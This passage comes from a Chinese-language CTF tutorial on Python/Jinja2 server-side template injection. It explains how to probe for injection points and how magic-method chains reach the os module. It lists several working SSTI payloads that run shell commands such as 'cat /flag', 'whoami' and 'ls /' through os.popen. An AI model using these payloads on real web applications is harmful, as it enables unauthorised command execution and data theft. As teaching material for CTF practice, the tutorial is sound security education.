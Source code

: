 当我们传入 {{9*9}} 时他会帮我们运算后输出 81

![image-20231128141012093](./assets/image-20231128141012093.png)

## Python模板注入一般流程

> 注意模板注入是一种方式，它不归属于任何语言，不过目前遇见的大多数题目还是以python的SSTI为主，所以我们用 Python SSTI 为例子带各位熟悉模板注入。

一般我们会在疑似的地方尝试插入简单的模板表达式，如 `{{7*7}}` `{{config}}`，看看是否能在页面上显示预期结果，以此确定是否有注入点。

当然本来还需要识别模板的，但大多数题目都是 Jinja2 就算，是其他模板，多也以Python为主，所以不会差太多，所以我们这里统一用 Jinja 来讲。

### 引

很多时候，你在阅读SSTI相关的WP时，你会发现最后的payload都差不多长下面的样子：

```
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}
......
```

是不是觉得每次看 WP 都会觉得很懵逼，这些方法为什么要这么拼，是怎么构造出来的？前面这一串长长的都是什么？

这里有几个知识点:

- **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
- **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
- **魔术方法**  : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。
